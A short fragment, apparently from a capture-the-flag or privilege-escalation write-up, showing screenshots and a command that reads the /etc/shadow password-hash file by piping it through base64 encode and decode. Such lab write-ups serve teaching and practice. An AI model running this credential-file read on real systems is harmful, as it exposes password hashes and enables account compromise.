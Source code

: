 ![](<../../../.gitbook/assets/image (418).png>)

So let's try to cat the /etc/shadow file.

`LFILE=/etc/shadow`

`base64 "$LFILE" | base64 --decode`

![](<../../../.gitbook/assets/image (338).png>)
